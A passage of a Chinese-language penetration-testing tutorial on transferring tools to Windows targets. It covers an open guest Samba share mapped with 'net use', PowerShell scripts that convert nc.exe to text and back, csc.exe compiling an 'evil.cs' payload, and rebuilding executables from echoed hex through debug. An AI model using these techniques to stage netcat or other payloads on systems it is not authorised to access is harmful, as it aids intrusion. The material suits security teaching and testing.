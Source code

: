 ```
\>vi /etc/samba/smb.conf
\[test\]
    comment = File Server Share
    path = /tmp/
    browseable = yes
    writable = yes
    guest ok = yes
    read only = no
    create mask = 0755
>service samba start
下载端
net use o: \\\\192.168.206.129\\test
dir o:
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNj6wkibupiayaFtiaKdGSFAHAf5ExhWoia7u1zJVrehqG4wfrfAkVxfe7GLw/640?wx_fmt=png)

**文件编译**

1、powershell 将 exe 转为 txt，再 txt 转为 exe nishang 中的小脚本，测试一下将 nc.exe 转化为 nc.txt 再转化为 nc1.exe ExetoText.ps1  

```
\[byte\[\]\] $hexdump = get-content -encoding byte -path "nc.exe"
\[System.IO.File\]::WriteAllLines("nc.txt", (\[string\]$hexdump))
TexttoExe.ps1
\[String\]$hexdump = get-content -path "nc.txt"
\[Byte\[\]\] $temp = $hexdump -split ' '
\[System.IO.File\]::WriteAllBytes("nc1.exe", $temp)
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjw3TZZYibvWlQMK1dz6mCbStKN8bfpfAnulMF3r9h07ia5dqcIvCX4Aiag/640?wx_fmt=png)

2、csc.exe 编译源码 csc.exe 在 C:\\Windows\\Microsoft.NET\\Framework \\ 的各种版本之下  

```
csc.exe /out:C:\\evil\\evil.exe C:\\evil\\evil.cs
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjBvWYuJNKaFpic8p284Ar3AU3WdEicegNOTty3vErs2eMY6n7xZWia56iag/640?wx_fmt=png)

3、debug 程序 hex 功能能将 hex 文件转换为 exe 文件 (win08\_x64 没有这个, win03\_x32 有, 听说是 x32 才有这个)  

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjCMYD5dKkm2OG85dnFDbicUedhrmL8TDPgn4Yg1pbPKL8llZGP221j5g/640?wx_fmt=png)

思路：  

1.  把需要上传的 exe 转换成十六进制 hex 的形式
    
2.  通过 echo 命令将 hex 代码写入文件 (echo 也是有长度限制的)
    
3.  使用 debug 功能将 hex 代码还原出 exe 文件
    

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjroowMCKny7DTjo2nyRgp8xINkgC1AI76wY2UqlWuqB9GlwyhdkvZibg/640?wx_fmt=png)
